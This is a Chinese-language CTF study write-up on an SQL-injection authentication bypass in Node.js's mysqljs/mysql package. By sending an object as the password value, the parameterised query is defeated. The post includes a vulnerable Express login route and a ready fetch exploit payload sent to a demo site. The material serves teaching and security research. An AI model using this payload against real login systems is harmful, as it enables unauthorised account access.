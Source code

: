前言
==

这个知识点在blackhat mea ctf2024中出现了，所以就拿出来学习了，没想到在mysql中还有这种打法。

0xff 简要
=======

首先是在nodejs生态中比较重要的一个包mysqljs/mysql中发现了一种利用转义函数来进行sql注入的一个点。

通常来说，一些常规的防御函数都会被使用在一些场景来进行过滤操作，但是在mysqljs中因为其一些特性使得它可以进行绕过一些常见的过滤函数从而进行sql注入，这里的话主要讨论在sql注入中的万能密码。

并且这类的注入比较不常规，所以在一般sql注入的字典中是见不到这些playload的。  
诸如:connect.escape()、mysql.escape()和pool.esacape()这类的函数也会被影响。

demo1
-----

这里是一个简单的实例

```js
app.post("/auth", function(request, respond){
var username = request.body.username;
var password = request.body.password;
if(username && password){
    connection.query(
    "SELECT * FROM accounts WHERE username = ? AND password = ?",
    [username,password],
    function(error,result, field){
    ......
    }
    );

});
}
```

在大多数人的第一眼中，这个看起来是很安全的，但是因为`express`这个包的特性，所以我们可以利用这个来把username和passowrd的值给他改为其他数据类型例如obj boolean Array

接下来就是exp，这里的话直接fetch

```js
data = {
    username : "admin",
    password:{
        password: 1,
    },
};
fetch("https://sqli.blog-demo.flatt.training/auth",{
    headers:{
    "content-type": "application/json",
    },
    body: JSON.stringify(data),
    method: "POST",
    mode: "cors",
    credentials: "include",

})
.then((r) => r.text())
.then((r) => {
    console.log(r);
});
```
